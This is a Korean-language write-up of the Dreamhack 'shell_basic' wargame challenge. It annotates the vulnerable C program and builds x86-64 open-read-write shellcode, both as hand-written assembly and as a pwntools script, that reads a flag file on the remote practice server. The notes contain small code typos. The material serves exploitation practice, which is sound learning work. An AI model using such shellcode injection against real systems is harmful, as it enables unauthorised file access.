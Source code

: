 
>[!note]
>입력한 셸코드를 실행하는 프로그램이 서비스로 등록되어 작동하고 있습니다.
`main` 함수가 아닌 다른 함수들은 execve, execveat 시스템 콜을 사용하지 못하도록 하며, 풀이와 관련이 없는 함수입니다.
flag 파일의 위치와 이름은 `/home/shell_basic/flag_name_is_loooooong`입니다.

### 코드 분석

```c
// comile: gcc -o shell_basic shell_basic.c -lseccomp
// apt install seccomp libseccomp-dev

# include <fcntl.h> // 파일 제어 관련 
# include <seccomp.h> // 보안 관련 시스템콜 필터링
# include <stdio.h> // 표준 입출력
# include <stdlib.h> // 표준 라이브러리 (exit,malloc)
# include <string.h> // 문자열 처리
# include <sys/prctl.h> // 프로세스 제어
# include <unistd.h> // 유닉스 시스템콜들 (read,alarm)
# include <sys/mman.h> // 메모리 매핑
# include <signal.h> // 시그널 처리

void alarm_handler(){
	puts("TIME OUT");
	exit(-1);
}
// puts(): 문자열을 출력, printf와 같지만 자동 줄바꿈 추가
// exit(-1): 프로그램을 에러 코드 -1로 종료, 프로그램을 강제로 끝내는 코드이다. 0은 정상적으로 끝난거고 0이 아닌 숫자는 문제가 있어서 끝난것

void init(){
	setvbuf(stdin,NULL,_IONBF,0);
	setvbuf(stdout,NULL,_IONBF,0);
	signal(SIGNALRM,alarm_handler); // SIGNALRM 신호가 오면 alarm_handler 함수 실행
	alarm(10); // 10초 후에 SIGANLRM 신호 보내
}

void banned_execve(){ // 특정 시스템콜들을 금지하는 보안 필터 설정 (execve와 execveat)
	scmp_filter_ctx ctx;
	ctx=seccomp_init(SCMP_ACT_ALLOW);
	if (ctx==NULL){
		exit(0);
	}
	// seccomp 초기화가 실패하면 ctx가 null이 됨
	// 실패하면 프로그램을 바로 종료
	// 보안 설정이 안되면 위험하니까 아예 실행 안 하겠다는 뜻
	seccomp_rule_add(ctx,SCMP_ACT_KILL,SCMP_SYS(execve),0);
	seccomp_rule_add(ctx,SCMP_ACT_KILL,SCMP_SYS(execveat),0);

	seccomp_load(ctx);
	// 지금까지 설정한 규칙들을 커널에 실제로 적용용
}

void main(int argc,char *argv[]){
	char *shellcode=mmap(NULL,0x1000,PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS,-1,0);
	// NULL: 시작주소를 정하지 않음
	// 0x1000=16진수로 4098 바이트 (4KB)
	// 읽기 가능, 쓰기가능, 실행가능
	void (*sc)();

	init();

	banned_execve();

	printf("shellcode:");
	read(0,shellcode,0x1000);

	sc=(void *)shellocde;
	sc();
}

```

- execve 명령을 사용하는 것이 금지되어 있기 때문에 셸을 실행하는 셸코드가 아닌, 원하는 경로의 파일을 읽어 출력하는 셸코드를 작성하는 것을 목표로 한다. 
- setvbuf() 함수 분석
	- stdin 또는 stdout (어떤 스트림을 설정할지)
	- NULL 버퍼를 자동으로 할당
	- _IONBF (버퍼링 모드)
	- 0 (버퍼 크기, _IONBF에서는 무시됨)
- 버퍼링 모드 종류
	- _IOFBF: 완전 버퍼링, 기본값
	- _IOLBF: 줄 단위 버퍼링
	- _IONBF: 버퍼링 없음
- 스트림은 데이터가 흐르는 통로라고 생각하면 된다.
	- stdin: 사용자가 입력한 데이터를 받음 / 키보드와 연결 / scanf(), getchar(), read() 등 / 키보드에서 데이터를 받아먹음
	- stdout: 프로그램의 결과를 출력 / 모니터 화면과 연결 / printf(), puts(), write() 등 / 화면으로 데이터를 뱉어냄
	- stderr: 에러 메시지 출력

### 익스플로잇
- assembly로 작성하기

```c
int fd=open("/home/shell_basic/flag_name_is_loooooong",O_RDONLY,NULL);
read(fd,buf,0x30);
write(1,buf,0x30);
```
- 문자의 개수: 40개
- 64비트 시스템에서는 8바이트씩 스택에 저장
- 40바이트 % 8바이트는 5번의 push 명령 필요
- null 종료 문자 1개 \n
- 총 41바이트 필요

### 최종 assembly 코드
```assembly
push 0x0                    ;  NULL byte
mov rax, 0x676e6f6f6f6f6f6f ; "oooooong"
push rax
mov rax, 0x6c5f73695f656d61 ; "ame_is_l"
push rax
mov rax, 0x6e5f67616c662f63 ; "c/flag_n"
push rax
mov rax, 0x697361625f6c6c65 ; "ell_basi"
push rax
mov rax, 0x68732f656d6f682f ; "/home/sh"
push rax
mov rdi, rsp    ; rdi = "/home/shell_basic/flag_name_is_loooooong"
xor rsi, rsi    ; rsi = 0 ; RD_ONLY
xor rdx, rdx    ; rdx = 0
mov rax, 2      ; rax = 2 ; syscall_open
syscall         ; open("/home/shell_basic/flag_name_is_loooooong", RD_ONLY, NULL)

mov rdi, rax      ; rdi = fd
mov rsi, rsp
sub rsi, 0x30     ; rsi = rsp-0x30 ; buf
mov rdx, 0x30     ; rdx = 0x30     ; len
mov rax, 0x0      ; rax = 0        ; syscall_read
syscall           ; read(fd, buf, 0x30)

mov rdi, 1        ; rdi = 1 ; fd = stdout
mov rax, 0x1      ; rax = 1 ; syscall_write
syscall           ; write(fd, buf, 0x30)
```

- shellcraft 사용하기

```python
from pwn import *

# p = process("./shell_basic")
p = remote("host3.dreamhack.games", 15969)
context.arch = "amd64"

dir = "/home/shell_basic/flag_name_is_loooooong"

shellcode = shellcraft.open(dir)
shellcode += shellcraft.read('rax', 'rsp', 0x30)
shellcode += shellcraft.write(1, 'rsp', 0x30)

p.sendlineafter(b"shellcode: ", asm(shellcode))

p.interactive()
```

- 취약점: 사용자가 보낸 데이터를 검증 없이 바로 실행
- `shellcode = shellcraft.open(dir)` 파일 열기
- `shellcode += shellcraft.read('rax', 'rsp', 0x30)` 파일 읽기
- `shellcode += shellcraft.write(1, 'rsp', 0x30)` 화면 출력
- 서버의 플래그 파일을 읽어서 화면에 출력

- 취약한 서버 프로그램
```c
read(0, shellcode, 0x1000);
sc=(void *)shellcode;
se();
```
- 사용자 입력 받고 입력을 코드로 취급
- 입력 받은 걸 바로 실행 <- 위험

- 셸 실행은 안되지만 파일 읽기는 되니까 직접 파일 읽어서 출력
- pwntools는 복잡한 어셈블리어를 파이썬으로 쉽게 만들어주는 도구
